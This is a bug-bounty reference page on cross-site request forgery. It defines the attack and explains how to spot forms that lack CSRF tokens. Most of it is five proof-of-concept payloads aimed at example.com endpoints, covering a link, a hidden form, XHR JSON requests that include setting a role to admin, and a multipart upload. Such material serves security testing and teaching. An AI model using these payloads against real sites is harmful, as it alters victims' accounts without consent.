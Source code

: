 # Cross Site Request Forgery (CSRF)

## Introduction
Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## Where to find
Usually found in forms. Try submit the form and check the HTTP request. If the HTTP request does not have a CSRF token then it is likely to be vulnerable to a CSRF attack. But in some cases, the CSRF token can be bypassed, try check this [List](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%20CSRF.md)

## How to exploit
1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

5. Multipart request
```html
<head>
    <title>Multipart CSRF PoC</title>
</head>
<body>
<br>
<hr>
<h2>Click Submit request</h2><br>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://example/api/users", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------149631704917378");
        xhr.withCredentials = true;
        var body = "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"action\"\r\n" + 
          "\r\n" + 
          "update\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"user_id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"uname\"\r\n" + 
          "\r\n" + 
          "daffainfo\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"first_name\"\r\n" + 
          "\r\n" + 
          "m\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"last_name\"\r\n" + 
          "\r\n" + 
          "daffa\r\n" + 
          "-----------------------------149631704917378--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
<br>
</body>
```